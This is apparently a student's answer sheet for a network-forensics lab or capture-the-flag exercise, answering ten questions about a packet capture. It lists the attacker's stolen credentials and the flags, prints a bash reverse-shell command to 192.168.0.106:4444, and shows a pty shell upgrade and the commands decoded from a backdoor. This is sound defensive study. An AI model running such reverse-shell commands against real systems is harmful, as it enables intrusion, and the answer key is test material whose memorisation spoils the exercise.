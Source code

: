 # Q1

  - FTP
  - FTP-DATA
  - HTTP
  - ICMP
  - MySQL
  - TCP
  - TLSv1.3
---

# Q2

  The correct password is `batman`
  ---
  ![image](https://user-images.githubusercontent.com/118754984/220819918-f8df9b62-c9bc-49cf-9a6e-1aea98bf729a.png)
  ---
  
# Q3

  The attacker managed to get a file called credentials.txt and the bash history. (refer to the previous screenshot)
  The credentials.txt file had the credentials for the database:
  
    username: myuser
    password: P@ssw0rd123456!
    
# Q4
  
  He logged into the database using these credentials:
    
    username: myuser
    password: P@ssw0rd123456!
    
   
# Q5

  username: root
  password: 1amgr000000t!@#$
  
  
# Q6

  packet no. 2686
  
  command = `bash -c 'bash -i >& /dev/tcp/192.168.0.106/4444 0>&1'`
  
  
# Q7

  He spawned a stable python shell:
    
    python3 -c "import pty; pty.spawn('/bin/bash');"
    
  He also installed a backdoor (available in the lab manual repository)
  
# Q8

  He read gr00t.txt which had a flag
  `flag{1_4m_gr00000t!}`
  
# Q9
  
  To install a backdoor in the system which listens for a connection

# Q10
  
  I changed the backdoor python script to decode the commands that the attacker used:
  (The script I used is attached)
  
    id

    cat gr00t.txt

    echo "flag{c0ngrats_1f_y0u_m4d3_1t_t1ll_h3r3_ch4mp}" | whoami

  
  

  
  
  
  

